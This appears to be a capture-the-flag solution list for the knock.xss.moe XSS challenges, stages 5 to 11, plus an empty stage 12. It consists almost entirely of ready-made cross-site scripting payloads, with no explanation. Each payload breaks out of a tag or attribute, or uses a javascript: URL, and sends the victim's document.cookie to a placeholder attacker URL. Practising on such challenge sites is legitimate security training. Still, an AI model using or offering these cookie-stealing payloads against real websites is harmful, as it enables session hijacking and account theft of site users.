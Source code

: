 # Stage5
- Link : [http://fea7c73bbe92f7880fc15514e076e838d2ce8a90.knock.xss.moe/?q=XSS](http://fea7c73bbe92f7880fc15514e076e838d2ce8a90.knock.xss.moe/?q=XSS)
- Payload : `</textarea><script>location='{yourURL}/?se='%2Bdocument.cookie</script>`

---
# Stage6
- Link : [http://d82fe27901fa05dcfa8980262fc811645543e374.knock.xss.moe/?q=XSS](http://d82fe27901fa05dcfa8980262fc811645543e374.knock.xss.moe/?q=XSS)
- Payload : `</xmp><script>location='{yourURL}/?se='%2Bdocument.cookie</script>`

---
# Stage7
- Link : [http://8005f6694d2862438bad3715436522e27dbd81a4.knock.xss.moe/?q=XSS](http://8005f6694d2862438bad3715436522e27dbd81a4.knock.xss.moe/?q=XSS)
- Payload : ``XSS" onfocus="location=`yourURL/?se=${document.cookie}`" autofocus="``

---
# Stage8
- Link : [http://b65797d44372ecb2b2552e32f10ec75f1bddcca6.knock.xss.moe/?q=XSS](http://b65797d44372ecb2b2552e32f10ec75f1bddcca6.knock.xss.moe/?q=XSS)
- Payload : `"XSS' onfocus=location="{yourURL}/?se="%2Bdocument.cookie autofocus='"`

---
# Stage9
- Link : [http://e461f5f6c542ae79ccc144093c63d0b074e591cd.knock.xss.moe/?q=XSS](http://e461f5f6c542ae79ccc144093c63d0b074e591cd.knock.xss.moe/?q=XSS)
- Payload : `XSS" onfocus=location="{yourURL}/?se=".concat(document.cookie) autofocus"`

---
# Stage10
- Link : [http://811fbf0db9c40565743a37c2978f812b82eb89a6.knock.xss.moe/?q=XSS](http://811fbf0db9c40565743a37c2978f812b82eb89a6.knock.xss.moe/?q=XSS)
- Payload : `javascript:location="{yourURL}/?se=".concat(document.cookie)`

---
# Stage11
- Link : [http://38e585f94f9d1f6bb79e88b74f3a5b5871d5bb84.knock.xss.moe/?q=XSS](http://38e585f94f9d1f6bb79e88b74f3a5b5871d5bb84.knock.xss.moe/?q=XSS)
- Payload : `javascript:top.location="{yourURL}/?se=".concat(document.cookie)`

---
# Stage12
- Link : 
- Payload : 

---